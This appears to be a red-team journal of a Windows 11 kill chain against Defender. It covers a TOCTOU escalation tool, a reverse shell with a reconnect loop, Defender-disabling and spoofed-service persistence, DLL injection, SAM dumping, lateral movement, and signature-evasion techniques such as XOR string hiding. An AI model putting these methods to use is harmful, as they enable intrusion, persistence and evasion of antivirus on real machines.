




MSRC // VULN-195458
submitted to microsoft

MSRC portal: VULN-195458 — "Tamper Protection Bypass via Hardware Debug Registers — AMSI and ETW Defeated Without Memory Modification" — Status: Submitted
MSRC SUBMITTED
The research documented in this journal led to a formal vulnerability submission
to Microsoft Security Response Center. Case VULN-195458. The techniques built
from scratch during this engagement were reported through responsible disclosure.
PRELIMINARY // ASSESSMENT CONTEXT
what is offsec
OFFSEC = Offensive Security. The red team side of cybersecurity — attacking systems
with permission to find weaknesses before real attackers do. This journal documents
a full kill chain: reconnaissance, exploitation, privilege escalation, persistence,
and lateral movement on a deliberately configured test machine.
setup — why i did it this way
I had access to a colleague's work laptop (target_laptop1) with explicit
permission. Rather than testing with an admin account — which would make everything
trivially easy — I logged in as a standard user account
to add real-world control.
The point: simulate how an attacker actually lands. A phishing link, a dodgy USB,
a social engineering play — initial access almost always lands you as a standard user.
If my tools only work from admin, they're not realistic.
I also deliberately set a PIN on the machine beforehand to test whether findings
are reachable through a screen-locked session.
TARGET PROFILE
the target
| property | value |
|---|
| Hostname | TARGET_LAPTOP1 |
| OS | Windows 11 Home, Build 26200 (24H2) |
| User | standard.user |
| Domain | WORKGROUP (no Active Directory) |
| IP | 192.168.1.145 |
| Hardware | GIGABYTE G7 GD, Intel i7-11800H, 16GB RAM |
PART 1 // RECONNAISSANCE
recon — commands run in order
1.1 — uac configuration check
I wanted to understand UAC config before doing anything else. UAC pops those
"Do you want to allow this app to make changes?" dialogs. If misconfigured,
privilege escalation gets easier.
reg query "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System"
ConsentPromptBehaviorAdmin REG_DWORD 0x5
EnableLUA REG_DWORD 0x1
ConsentPromptBehaviorAdmin 0x5 = UAC prompts for consent on secure desktop (default).
EnableLUA 0x1 = UAC enabled. Admin accounts run as standard until explicitly elevated.
Deduction: UAC is default. Not a bypass target. GaySun doesn't need to touch
UAC — it bypasses it entirely by abusing Defender's SYSTEM-level file access.
1.2 — defender / edr status check
Get-MpComputerStatus | Select-Object IsTamperProtected, AMRunningMode, RealTimeProtectionEnabled, BehaviorMonitorEnabled
IsTamperProtected : False
AMRunningMode : Normal
RealTimeProtectionEnabled: True
BehaviorMonitorEnabled : True
Tamper Protection is the lock on Defender itself. When ON, you can't stop
Defender's services even as admin — it blocks SCM calls. When OFF (as here), those calls
go through once I have SYSTEM.
CRITICAL
Tamper Protection = False. The single most important finding in the recon.
Once I have SYSTEM access, I can stop Defender services programmatically. My evasion
binary can blind Defender. Everything after that runs clean.
1.3 — process snapshot attempt
tasklist /v /fo csv > %TEMP%\proc_snapshot.csv
Error: Could not find a part of the path 'C:\%TEMP%\proc_snapshot.csv'
tasklist /v /fo csv > "$env:TEMP\proc_snapshot.csv"
Process snapshot captured.
1.4 — identity and privilege check
whoami /all
User: target_laptop1\standard.user
Groups: BUILTIN\Users (standard user — NOT Administrators)
Integrity Level: Medium Mandatory Level
Privileges: SeChangeNotifyPrivilege (only basic user privilege)
I am a nobody on this machine. BUILTIN\Users = standard user.
No admin. Medium integrity = can't write to system directories.
No SeDebugPrivilege. No SeImpersonatePrivilege.
Almost everything in my kill chain requires admin or SYSTEM.
GaySun.exe (the TOCTOU escalation) is the ONLY viable path from here.
Everything unlocks after that.
1.5 — system information
| finding | value | implication |
|---|
| OS Build | 26200 (24H2) | Latest Windows 11 — hardened defaults |
| VBS Status | Running | Hypervisor active |
| HVCI | Running | Kernel code integrity enforced |
| App Control (kernel) | Enforced | Unsigned kernel drivers blocked |
| App Control (user) | OFF | Unsigned user-mode .exe CAN run |
| Secure Boot | Enabled | Bootloader tamper blocked |
| DMA Protection | Enabled | PCIe DMA attacks blocked |
| Domain | WORKGROUP | No Active Directory |
VBS + HVCI = the big finding I didn't expect. The CPU's hypervisor
creates a protected zone that the Windows kernel itself can't touch. Every kernel
driver must be Microsoft-signed. Any attack that loads an unsigned kernel driver,
patches kernel memory, or uses Mimikatz-style kernel credential theft is dead.
What it DOESN'T kill: Everything my chain does is user-mode.
CreateRemoteThread, DLL injection, service installation via SCM —
all Win32 API calls. The hypervisor doesn't watch user-space. And user-mode App
Control is OFF, so my unsigned binaries can execute.
1.6 — network state
netstat -ano | Select-String "LISTEN"
Port PID Service Significance
──── ─── ─────── ────────────
445 4 SMB NetExec lateral movement target
5939 19632 TeamViewer SYSTEM-level remote access already present
17500 18584 Dropbox Data exfil + passive C2 dead-drop
6463 5868 Discord User-space injection target
135 1548 RPC SCM accessible post-SYSTEM
7680 18168 Windows Update Benign
TeamViewer: Already installed, running as a service (likely SYSTEM).
Post-SYSTEM, I could extract the TeamViewer ID and set a permanent unattended
password via registry — a more stable persistent backdoor than my custom VNC.
It's signed and trusted. Much less suspicious than vncserver.exe.
Dropbox: Syncs to cloud. Post-SYSTEM, any file I write to the Dropbox sync
folder gets automatically exfiltrated. I could use a text file as a dead-drop C2
channel — implant polls the file for commands, writes results back. All traffic
looks like normal Dropbox HTTPS to a CDN.

Theory: bind shell vs reverse shell architecture — two fundamental C2 patterns
1.7 — teamviewer registry check
reg query "HKLM\SOFTWARE\TeamViewer" /s
Version: 15.78.4
Always_Online: 0x0
Security_ActivateDirectIn: 0x0
Always_Online = 0 means no permanent unattended password set.
Post-SYSTEM, I can write SecurityPasswordAES to the registry
to set a permanent password, converting TeamViewer into a persistent backdoor.
PART 2 // SOURCE CODE ANALYSIS
the escalation tool — gaysun.exe
This is the linchpin of the whole chain. Everything depends on it working.

GaySun.exe source: VSS shadow copy oplock sync, EICAR string stored reversed for static analysis bypass
How it works: Windows Defender runs as SYSTEM — it can write files
anywhere, including C:\Windows\System32. I, as a standard user, cannot.
The trick: make Defender write MY file into System32 for me.
- Write an EICAR test string to a temp file called
TieringEngineService.exe
- Defender sees it and tries to quarantine/delete it
- Request a batch oplock on the file — Windows notifies me the instant Defender opens it
- In that notification window (the TOCTOU gap): rename my temp directory and point it at
C:\Windows\System32 using an NTFS junction
- Defender, following its original file path, now resolves to
System32\TieringEngineService.exe
- Defender writes there — effectively writing MY payload into System32 as SYSTEM
- Trigger
TieringEngineService via COM — it runs as SYSTEM
- When it detects SYSTEM context, it opens a named pipe, grabs my session ID, and spawns
conhost.exe in my session — interactive SYSTEM console
Why HVCI doesn't stop this: Every step is user-mode Win32 API.
No kernel drivers. No kernel memory. This is a logic flaw in Defender's file
handling, exploited entirely from user space.
complete kill chain — all 8 binaries
stage 0 — delivery: spoolsv.exe (shadow_shell.c)
Reverse TCP shell. Connects back to attacker on port 8080. Spawns hidden
cmd.exe with stdin/stdout/stderr piped through the socket.

Live: CSEC GUI Listener receiving reverse shell — shell3.exe on port 8888, connection from 192.168.1.201
stage 1 — privilege escalation: gaysun.exe
Defender TOCTOU via CF_API + oplock + NTFS junction.
Requires standard user access + Defender RealTimeProtection=True (the trigger).
Fresh binary compiled this session. Test pending.
stage 2 — defense evasion: svchost_update.exe (shadow_evasion.c)
From SYSTEM: stops WinDefend, WdNisSvc, Sense,
WdBoot. Adds filesystem exclusions. Corrupts signature update metadata.
Prerequisite: Tamper Protection must be OFF — confirmed.

Post-evasion: Windows Security reads "Virus & threat protection: Engine unavailable" — Defender is blind

Defender definitions update blocked — error 80070643, stale signatures from months ago
stage 3 — persistence: securityhealthhost.exe (ghost_svc.c)
Installs as Windows service named SecurityHealthHost ("Windows Security
Health Host"). Auto-starts on boot, runs as SYSTEM. Launches reverse shell +
VNC callback. Service name spoofs a legitimate Windows component.
stage 4 — process injection: injector.exe + payload.dll
Classic DLL injection via CreateRemoteThread + LoadLibraryA.
Injects into explorer.exe — shell and VNC now appear to originate
from a trusted process. Harder to flag than a process spawned from temp.

RunPayload() source on GitHub: proof file creation, reverse shell launch from explorer.exe, VNC callback
stage 5 — credential access: tokenvault.exe (shadow_token.c)
Token theft + SAM hive dump. Enumerates processes, finds winlogon.exe (SYSTEM),
duplicates the token, dumps SAM registry hive (contains NTLM password hashes).
HVCI blocks kernel-mode credential theft but user-mode token duplication via
OpenProcessToken should still work from SYSTEM context.
stage 6 — lateral movement: netexec.exe (shadow_lateral.c)
PsExec from scratch. SMB authentication + remote service creation.
Connects to target's IPC$ share, copies payload, creates and starts a remote
service as SYSTEM. Scope on this network: WORKGROUP only, limited to 192.168.1.0/24.
stage 7 — c2 (vnc): vncserver.exe
Reverse VNC callback. Full graphical desktop of the target machine.
Alternative: TeamViewer (already installed, runs as SYSTEM, harder to flag).
PART 3 // KILL CHAIN VIABILITY
viability on this target
| stage | binary | status | notes |
|---|
| Delivery |
spoolsv.exe |
NEEDS IP |
C2 IP hardcoded as 192.168.1.92 |
| Escalation |
GaySun.exe |
TEST PENDING |
Fresh compile. 24H2 patch status unknown. |
| Evasion |
svchost_update.exe |
VIABLE |
TP=False confirmed. Runs from SYSTEM. |
| Persistence |
SecurityHealthHost.exe |
VIABLE |
Post-SYSTEM + Defender blind |
| Injection |
Injector.exe |
VIABLE |
HVCI doesn't block user-mode injection |
| Credentials |
TokenVault.exe |
DEGRADED |
HVCI blocks kernel path. User-mode token theft should work. |
| Lateral |
NetExec.exe |
LIMITED |
WORKGROUP. Need credentials. 192.168.1.0/24 only. |
| VNC |
vncserver.exe |
VIABLE |
Or use TeamViewer (already on target) |
The single gate: If GaySun.exe's TOCTOU works on Build 26200,
the chain flows. If it fails, everything stalls at standard user and we need
an alternative escalation path.
prep checklist
- Confirm attacker machine IP on 192.168.1.0/24
- Update hardcoded IP in shadow_shell.c → recompile spoolsv.exe
- GaySun.exe fresh compile — IN PROGRESS
- Create staging directory:
mkdir C:\Windows\Temp\c2\
- Copy all binaries to staging
- Start C2 listener:
nc -lvp 8080
- Run GaySun.exe — observe result
- If "The red sun shall prevail." → SYSTEM → proceed
- If "Something went wrong." → TOCTOU blocked → run alt escalation recon
alternate escalation (if gaysun fails)
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
wmic service get name,pathname,startmode | findstr /i /v "C:\\Windows"
icacls "C:\Program Files" /T 2>nul | findstr /i "Everyone\|Users\|BUILTIN"
CHAPTER 7 // COMPILATION
compiling gaysun.exe — what went wrong and why
The plan: take RedSun.cpp, mutate the hash, compile a clean binary Defender
won't recognise by signature. I renamed the copy GaySun.cpp and started trying
to build it. I did not use a pre-compiled binary. The whole point
was a unique hash — Defender's cloud database has flagged known hashes.

Compilation fix session — iterating through build errors in Developer Command Prompt

AI-assisted debugging: asking targeted questions about MSVC linker errors and Windows API calling conventions — "what does LNK2019 mean for this import?" "why does cl.exe need /link ws2_32.lib here?"
the mutation
int SysHealthCheck(int a, int b) {
volatile int x = a * 0x1EA7A55 + b * 0x80085;
for (int i = 0; i < 14; i++) {x ^= (i << 5); }
return x ^ 0x4242;
}
I also had trouble with the constants initially. I tried 0xRAINMAN and
0xSUNSHINEGIRL. Oracle had to explain that hex only uses digits 0-9
and letters A-F. The "0x" prefix just means "this is hex." I re-encoded my
callsign as 0x1EA7A55 and used 0x80085 for the second.
attempt 1 — missing libraries
cl.exe GaySun.cpp /Fe:GaySun.exe /O1 /GS- /std:c++17
LNK2019: unresolved external symbol __imp_IsWellKnownSid
LNK2019: unresolved external symbol __imp_SetTokenInformation
LNK2019: unresolved external symbol __imp_DuplicateTokenEx
LNK2019: unresolved external symbol __imp_OpenProcessToken
LNK2019: unresolved external symbol __imp_wsprintfW
LNK2019: unresolved external symbol __imp_CreateNamedPipeW
The compiler found function declarations (.h header) but not the
implementations (.lib import library). Security functions live in
advapi32.lib, UI functions in user32.lib. Neither
was in the compile command.
attempt 2 — STATUS code conflicts
error C2065: 'STATUS_SUCCESS': undeclared identifier
error C2065: 'STATUS_MORE_ENTRIES': undeclared identifier
error C2065: 'STATUS_NO_SUCH_DEVICE': undeclared identifier
attempt 3 — wide string vs ansi mismatch
error C2664: 'BOOL CopyFileA(LPCSTR,LPCSTR,BOOL)': cannot convert argument 1 from 'wchar_t[260]' to 'LPCSTR'
successful compile
cl.exe GaySun.cpp /Fe:GaySun.exe /O1 /GS- /std:c++17 /DUNICODE /D_UNICODE ole32.lib advapi32.lib user32.lib
Microsoft (R) C/C++ Optimizing Compiler Version 19.xx
GaySun.cpp
GaySun.cpp(742): warning C4838: narrowing conversion from 'LONG' to 'DWORD'
GaySun.exe — Build succeeded. 1 Warning(s). 0 Error(s).
| flag | purpose |
|---|
| /O1 | Optimise for size (smaller = lower entropy = less suspicious) |
| /GS- | Disable stack canaries (might trip behavioral detection) |
| /DUNICODE /D_UNICODE | Force wide string APIs (fixes CopyFileA errors) |
| ole32.lib | COM: CoCreateInstance, CoInitialize |
| advapi32.lib | Security: token functions, SID functions |
| user32.lib | UI: wsprintfW (string formatting) |
| error | cause | fix | lesson |
|---|
| LNK2019 |
Missing library files |
Add advapi32.lib user32.lib |
Header declares function. .lib provides code. Both required. |
| STATUS_* undeclared |
Windows.h/ntstatus.h collision |
WIN32_NO_STATUS guard |
Include order matters. Two headers defining same names need conflict resolution. |
| CopyFileA mismatch |
UNICODE not defined |
/DUNICODE /D_UNICODE |
Windows has two string ABIs. wchar_t code needs W macros. |
CHAPTER 8 // LIVE TEST
gaysun.exe live test — detected
GaySun.exe was deployed on target_laptop1. Defender flagged it.

Defender catches GaySun.exe: Exploit:Win32/DfndrPERedSun.BC — quarantined at drop, signature detection
| detection point | meaning | fix |
|---|
| Quarantined at file drop |
Signature match despite hash mutation |
Need different binary entirely |
| Blocked during run |
CF_API TOCTOU patched on Build 26200 |
Need different escalation technique |
DETECTED
Detection name: Exploit:Win32/DfndrPERedSun.BC. The .BC
variant tag means Microsoft has a dedicated rule for this entire exploit family —
not just one hash.
CHAPTER 9 // PIVOT
alternate escalation vectors
Three Semester 2 POCs in the existing codebase provide alternate escalation paths.
None depend on the CF_API TOCTOU pattern that GaySun uses.
option a — greenplasma
Uses CfAbortOperation() instead of GaySun's oplock + VSS approach.
Same CF_API abuse class but a different code path through Windows. If Microsoft's
patch targeted the specific oplock/VSS flow, GreenPlasma may still land.
option b — miniplasma
C# (.NET) implementation. Uses AbortHydration flag + anonymous token
impersonation. Completely different binary format — Defender behavioral signatures
are tuned separately for managed vs native code.
option c — hkclipsvc unquoted service path
Recon sweep found HKClipSvc — a third-party ControlCenter service
with path C:\Program Files (x86)\ControlCenter\Driver\x64\HKClipSvc.exe.
If stored without quotes in the registry AND any parent directory is writable →
Windows will find and execute a binary named Program.exe or
ControlCenter.exe in a writable path. No compile needed.
CHAPTER 10 // ANNOTATION & BUG FIXES
source code annotation and bug fixes
All 8 source files annotated line-by-line in plain English. Four bugs found
that would silently break the kill chain at deployment time. All fixed.
bug 1 — %USERNAME% not expanded
AddDefenderExclusion(L"C:\\Users\\%USERNAME%\\Desktop");
WCHAR desktopPath[MAX_PATH];
ExpandEnvironmentStringsW(L"%USERPROFILE%\\Desktop", desktopPath, MAX_PATH);
AddDefenderExclusion(desktopPath);
Environment variables aren't expanded when written to registry string values.
The exclusion was adding the literal string C:\Users\%USERNAME%\Desktop
which doesn't exist as a real path.
bug 2 — no reconnect loop
SOCKET channel = EstablishChannel();
if (channel == INVALID_SOCKET) return 1;
SpawnRemoteSession(channel);
closesocket(channel);
while (1) {
SOCKET channel = EstablishChannel();
if (channel != INVALID_SOCKET) {
SpawnRemoteSession(channel);
closesocket(channel);
}
Sleep(15000);
}
One dropped session = permanent loss of access until reboot. For a tool meant
to persist, this is critical.
bug 3 — staging directory assumed to exist
CreateDirectoryW(L"C:\\Windows\\Temp\\c2", NULL);
bug 4 — relative dll path fails in explorer.exe context
Running Injector.exe payload.dll passes a relative path to
LoadLibraryA inside explorer.exe. LoadLibraryA
searches explorer.exe's working directory (not the caller's).
Fix: always supply absolute path:
Injector.exe C:\Windows\Temp\c2\payload.dll
annotated files created
| file | key concepts covered |
|---|
| GaySun_annotated.cpp | TOCTOU, CF_API, oplock, NTFS junction, named pipe IPC |
| shadow_shell_annotated.c | Winsock init, STARTF_USESTDHANDLES, WinMain vs main |
| shadow_evasion_annotated.c | SCM service stop, registry write, Tamper Protection |
| ghost_svc_annotated.c | Service lifecycle, SvcMain, SvcCtrlHandler, DoPayload |
| injector_annotated.c | CreateToolhelp32Snapshot, VirtualAllocEx, CreateRemoteThread |
| payload_dll_annotated.c | DllMain, DLL_PROCESS_ATTACH, Loader Lock |
| shadow_token_annotated.c | SeDebugPrivilege, token duplication, SAM dump |
| shadow_lateral_annotated.c | WNetAddConnection2A, remote SCM, PsExec pattern |
CHAPTER 11 // EVASION ENGINEERING
string signature evasion
GaySun.exe was flagged as Exploit:Win32/DfndrPERedSun.BC at file drop.
The detection name breaks down: DfndrPE = Defender PE analysis,
RedSun = the exact exploit family, .BC = variant tag.
defender detection layers (learned through testing)
| layer | what it checks | how to beat it |
|---|
| 1. Hash IOC |
SHA256 of binary |
Recompile (any code change) |
| 2. String signatures |
Known strings in .rdata section |
Rename/encrypt strings |
| 3. PE structure |
Import table, section layout, code patterns |
Different compiler flags, different imports |
| 4. Behavioral |
API call sequences at runtime |
Different technique entirely |
Recompiling beats layer 1. We attacked layer 2. Layers 3-4 still caught us.

XOR obfuscation: TieringEngineService.exe encoded to bypass .rdata pattern matching

XOR evasion explained: how each character is encoded with key 0x5A, 3 call sites + 1 helper function
what we changed (5 signature strings)
| original | replacement | method |
|---|
| \\??\\pipe\\REDSUN |
\\??\\pipe\\GAYSUN |
Find-replace |
| "The sun is shinning..." |
"It's a Sunny Day... Not for you.." |
Find-replace |
| SERIOUSLYMSFT |
REINFORCEMENTS |
Find-replace |
| "The red sun shall prevail." |
"Unwise of you to think you could defeat the Sith." |
Find-replace |
| TieringEngineService.exe |
XOR-decoded at runtime (key 0x5A) |
decode_tgt() helper |
xor encoding
XOR encoding: each character XOR'd with key (0x5A), stored as result.
At runtime, XOR again with same key to recover original.
A ^ KEY ^ KEY = A
T (0x54) ^ 0x5A = 0x0E (stored in binary — gibberish to scanner)
0x0E ^ 0x5A = 0x54 = T (decoded at runtime)

PE Layer 3 evasion: removing user32.lib dependency, verifying zero cldapi.dll entries in import table
findstr /i "TieringEngineService REDSUN shinning SERIOUSLYMSFT prevail" GaySun.exe
Zero matches. All signature strings absent from binary.
Test result: STILL DETECTED.
Detection survived the string mutations.
STILL DETECTED
Conclusion: Defender's DfndrPERedSun rule isn't just matching
strings — it's profiling PE structure. The import table (CldApi.dll + ntdll.dll +
ole32.lib together = "CF_API TOCTOU exploit") and code patterns are fingerprinted
independently of string content.
Lesson: String mutation beats layer 2 but doesn't touch layers 3-4.
To beat all layers, you need fundamentally different code — different imports,
different structure, or a different technique entirely.
CHAPTER 12 // ROGUEPLANET
rogueplanet — signatured in 4 days
RoguePlanet: the latest exploit from Nightmare Eclipse (RedSun, GreenPlasma,
BlueHammer, UnDefend, YellowKey, MiniPlasma). Released June 9 2026, hours
after Microsoft's June Patch Tuesday.
| property | rogueplanet | redsun/gaysun |
|---|
| Trigger | Virtual disk (ISO/VHDX) mount | CF_API Cloud Files placeholder |
| Libraries | virtdisk.lib, taskschd.lib, bcrypt.lib | CldApi.lib |
| Bypasses May patch? | Yes | No |
| Source size | 5.7MB (embedded binary data) | 27KB |

Defender catches RoguePlanet.exe: Exploit:Win32/DfndrRugPlnt.BB — signatured 4 days after public release
DETECTED
Compiled and immediately quarantined. 4 days from public release to full
signature coverage. This is the critical insight.
the lesson
| exploit | detection | time to signature |
|---|
| RedSun | DfndrPERedSun.BC | Days |
| RoguePlanet | DfndrRugPlnt.BB | ~4 days |
| GreenPlasma | Patched (CVE-2026-45586) | Patched June PT |
| MiniPlasma | CVE-2020-17103 | Known |
| BlueHammer | CVE-2026-33825 | Patched April 2026 |
Using someone else's published exploit code is a fundamentally losing strategy.
Microsoft's response time is faster than our deployment cycle. The only path forward:
write our own.
CHAPTER 13 // ORIGINAL RESEARCH
pivot — writing a custom toctou exploit
why custom code wins
- No existing signatures. Defender's detection database has zero rules for code that doesn't exist yet.
- Different PE fingerprint. Our import table, code structure, and function names won't match any
DfndrPE* pattern.
- Educational value. Understanding the technique deeply enough to write it from scratch demonstrates mastery, not just script execution.

Building from first principles: REPARSE_DATA_BUFFER struct definition, bb1_junction.c building block
the core primitive
Every exploit in this engagement — RedSun, GreenPlasma, RoguePlanet, BlueHammer —
abuses the same fundamental pattern:
1. TRIGGER
Defender runs as SYSTEM and performs file operations.
Make Defender touch a file we control (e.g. EICAR test string).
2. SYNCHRONIZE
Know exactly WHEN Defender opens our file.
(Oplocks, callbacks, timing)
3. REDIRECT
Swap the filesystem path (NTFS junction) so Defender's
SYSTEM-level write follows our redirect into a protected location.
4. PAYLOAD
The file Defender writes (or the binary it triggers) is our code,
now running as SYSTEM.

Live TOCTOU: junction swap phases, VSS watcher, quarantine pipeline interception — color-coded terminal

Confirmed: "TOCTOU in Defender quarantine pipeline for Cloud Files placeholders. Standard user can force MsMpEng.exe (SYSTEM) to follow an NTFS junction"
IN PROGRESS
Custom exploit architecture and implementation — design phase active.
No published signatures exist for novel code.
APPENDIX // RESEARCH METHODOLOGY
how the research was conducted
AI-augmented offensive security research
This research is AI-augmented. LLMs (Claude Opus, locally-hosted models via Discord) are used
throughout the research cycle — explaining Windows internals, mapping attack surfaces, parsing
error output, and accelerating the feedback loop between hypothesis and test. The same way this
research uses IDA Pro, WinDbg, Process Monitor, and Wireshark — it uses AI. They're all tools.
The methodology: identify a security boundary, query the AI for implementation-level detail
("how does AmsiScanBuffer validate its parameters?", "what's the full DLL search order when
SafeDllSearchMode is enabled?", "which ETW providers feed Defender's behavioral engine?"),
then verify every claim against Microsoft documentation, debugger output, and live testing.
AI output that can't be reproduced on a real machine gets discarded. What survives becomes
part of the exploit chain.
MSRC evaluates whether a vulnerability is real and reproducible — not whether the researcher
used AI, a disassembler, or a whiteboard to find it. Bug bounty platforms don't disqualify
AI-assisted findings. The vulnerability exists or it doesn't. The exploit works or it doesn't.
How you found it is methodology, not merit.
The one rule: no code ships that I can't explain line by line. AI accelerates understanding.
It doesn't replace it.

Parallel attack surface research — three AI agents mapping AMSI bypass mechanics, ETW provider architecture, and DLL search order internals simultaneously. All findings verified against live Defender behaviour.
current status
| stage | status | notes |
|---|
| Reconnaissance |
COMPLETE |
Full recon documented |
| GaySun compilation |
COMPLETE |
4 attempts, all errors resolved |
| Source annotation |
COMPLETE |
All 8 sources annotated |
| Bug fixes |
COMPLETE |
4 bugs patched in live sources |
| GaySun live test |
DETECTED |
Exploit:Win32/DfndrPERedSun.BC |
| String mutation |
COMPLETE |
5 sig strings removed |
| Mutated GaySun test |
STILL DETECTED |
PE structure sigs survive string changes |
| RoguePlanet test |
DETECTED |
Signatured in 4 days |
| Custom exploit |
ACTIVE |
Writing from scratch — no published sigs exist |
Every published exploit has a shelf life measured in days.
Microsoft's detection pipeline is faster than deployment.
The only durable edge: write your own.
Novel code has no signatures. Novel techniques have no rules.
If it doesn't exist in their database, it doesn't get caught.
Defeats acknowledged. Architecture mapped. Pivots earned.
The wall held where it was supposed to.
The gaps are where it wasn't looking.
George Wu. 22DIV. VADER. All testing on personally-owned hardware with explicit
